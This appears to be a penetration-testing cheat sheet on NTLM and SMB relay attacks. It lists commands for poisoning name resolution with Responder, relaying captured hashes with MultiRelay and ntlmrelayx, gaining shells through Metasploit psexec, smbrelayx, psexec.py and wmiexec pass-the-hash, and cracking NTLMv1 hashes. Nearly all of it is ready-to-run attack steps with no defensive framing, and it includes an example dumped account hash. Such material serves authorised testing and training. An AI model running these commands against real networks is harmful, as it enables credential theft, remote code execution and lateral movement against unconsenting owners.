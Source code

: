 ## Search for SMB signing
* `responder-RunFinger -i <target>`
    - identify host with SMB signing disbled 

## Responder 
* change `/etc/responder/Responder.conf` - relay the hash
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm> <-dwPv>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
## Getting shell
### 1. MultiRelay
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf - capture the hashes
- 1. Run responder until hashes is received and close
- 2. Run Multirelay
- 3. While MultiRelay is running, run again responder

### 2. ntlmrelayx
In responder.conf, `SMB` and `HTTP` are Off
* `impacket-ntlmrelayx -t <target> -smb2support` - dumps the local hashes
* `impacket-ntlmrelayx -t 172.16.5.10 -i` - interactive shell

## Upgrade to Meterpreter shell
### Windows
* msf> `use exploit/windows/smb/psexec`
  - `set smbuser <localAccount>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
  - `set smbpass <local-NTLM-hash>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
e.g. localAccount and local-NTLM-hash is bolded in the following: __admin__:1005:__aad3b435b51404eeaad3b435b51404ee:179699ef43d4b9ba2f8f615f59893917__:::
### Linux
* msf> `use exploit/linux/samba/is_known_pipename`

## Other shells
### smbrelayx
* `impacket-smbrelayx -h <target> -e <payload-file>`
  - payload can be created with `msfvenom` to communicate back to a meterpreter session
  - `exploit/multi/handler` can be used as a listener meterpreter session

### psexec:
* `psexec.py <domain>/<user>:'<password>'@<target-IP>`
* `psexec.py <user>@<target-IP>` - hashes <local-NTLM hash>

### wmiexec:
* `wmiexec.py <user>@<target-IP>` - hashes <local-NTLM hash>

# Cracking NTLMv1
* msf > `use auxiliary/server/capture/smb`
* `rcracki_mt -h <8bytes-hash> *.rti -t <threads-number>` - for the first 8 bytes (16 characters) of the captured hash; use the downloadable .rti rainbow tables
* `<metasploit-framework-folder>/data/john/run.linux.x64.mmx/netntlm.pl --file <captured-hashfile-msf> --seed <password-rcracki>` - for the second half of the captured hash; results are case insensitive
* `<metasploit-framework-folder>/data/john/run.linux.x64.mmx/netntlm.pl --file <captured-hashfile-msf> --seed <full-password-from-previous>` - for the full case-sensitive password
